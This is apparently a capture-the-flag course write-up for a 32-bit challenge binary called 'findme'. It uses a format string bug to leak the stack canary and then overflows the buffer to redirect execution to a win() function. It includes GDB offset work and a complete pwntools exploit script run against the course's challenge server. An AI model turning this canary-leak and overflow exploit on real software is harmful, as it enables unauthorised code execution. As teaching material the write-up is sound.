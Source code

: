 ```yaml
---
description: A small spin on the canary problem.
---
```


# findme

{% file src="../../.gitbook/assets/findme.zip" %}

This challenge is very similar to the _canary_ challenge so we will skip the parts explaining the underlying theory. The goal of this problem is not only to provide more practice but also to show the speed at which these binaries can be exploited.

If you can go from nothing to an attack vector to an exploit for most problems in no more than 30 minutes, you're on the right track to succeed.

### Static Analysis

If we check the security, we notice that there is clearly a canary present.

```nasm
$ checksec ./findme
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/04-canaries/findme/src/findme'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We notice that the functions that aren't part of the STL are `main()`, `read_in()`, and `win()`.

* `main()` calls `read_in` and then returns.
* `win()` calls `system()` and then returns.

That leaves `read_in`. We notice the following:

* The canary is stored at `ebp-0xc`.
* There is a format string bug at `read_in+116`.
* We start writing at `ebp-0x48`.

Moving to the `gets` call that supplies the input to the format string vulnerability, we can quickly get the offset to the canary:

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  x/20wx $esp
0xffffd550:	0xffffd560	0x00000014	0x00000000	0x080491d2
0xffffd560:	0x00000000	0x00000000	0x01000000	0x0000000b
0xffffd570:	0xf7fc4540	0x00000000	0xf7c184be	0xf7e2a054
0xffffd580:	0xf7fbe4a0	0xf7fd6f80	0xf7c184be	0xf7fbe4a0
0xffffd590:	0xffffd5d0	0xf7fbe66c	0xf7fbeb20	0xbc53b400
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

We see the canary is at the 19th offset on the stack. If we want to do this mathematically, the canary is at `ebp-0xc`, and the stack pointer is at `esp`. We can do this math inside `gdb`:

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  p/x $esp
$3 = 0xffffd550
gef➤  p/x $ebp-0xc
$4 = 0xffffd59c
gef➤  python print((0xffffd59c-0xffffd550)/4)
19.0
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

The reason that we divide by four is that each address is four bytes long.

### Crafting the Payload

From here, we know what the payload is going to look like.

1. The first time around: send the format string to leak the canary.
2. The second time around: pad to the canary, write the canary, then pad to the return address, and overwrite the return address.

Let's make this happen.

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

proc = remote('vunrotc.cole-ellis.com', 4300)

# get the line of data
print(proc.recvline())

# payload round 1: leak the canary
proc.sendline(b'%19$p')
print(proc.recvuntil(b', '))
leak = int(proc.recvuntil(b'!')[:-1].decode(), 16)
print(proc.recvuntil(b':'))

print("Canary leaked:", hex(leak))

# payload round 2: buffer overflow
payload = b''
payload += b'A' * 40
payload += p32(leak)
payload += b'B' * 12
payload += p32(0x080492b9)

proc.sendline(payload)
proc.interactive()
```
{% endcode %}

Running the exploit gets us the flag:

```nasm
$ python3 exploit.py
b'Enter your username.\n'
b'Hi, '
b' Enter your password:'
Canary leaked: 0xf604b100
[*] Switching to interactive mode
 flag{combining_techniques_is_essential}
/home/ctf/runner.sh: line 5:    27 Segmentation fault      (core dumped) ./findme
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to vunrotc.cole-ellis.com port 4300
```
